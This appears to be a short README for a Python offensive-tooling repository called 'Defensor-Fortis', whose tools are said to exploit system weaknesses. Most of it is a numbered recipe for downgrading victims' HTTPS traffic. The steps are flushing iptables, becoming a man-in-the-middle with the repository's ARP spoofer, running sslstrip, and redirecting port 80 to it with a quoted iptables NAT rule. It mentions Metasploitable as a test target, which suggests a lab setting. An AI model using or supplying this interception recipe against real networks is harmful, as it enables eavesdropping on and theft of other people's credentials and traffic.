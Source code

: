 # Defensor-Fortis

The following tools have been created to exploit system weaknesses and vulnerabilities using Python 2 and 3. 
(You may need to minimally tweak the program depending on the version you use.)  

Each folder is provided with a text file named "howto" which explains how to use each program in detail. 
In addition, some of these programs will require you to bypass HTTPS in order to maximize its utility.
I use "sslstrip" in order to achieve this:

BYPASS HTTPS
1. Make sure your iptables are flushed, type in bash terminal:
iptables --flush

2. Become MITM, you may use any of the progrmas in the folder ARP Spoofer.

3.Run SSL Strip, it runs by default in port 10,000. Type in terminal:
sslstrip

4. Redirect packets from your computer from port 80 to SSL Strip (again, on port 10,000). Type in terminal:
iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 10000

5. Run the tool. 

Should you require any further guidance, feel free to contact me as well. 

I recommend using Metasploitable to test the exploits. 
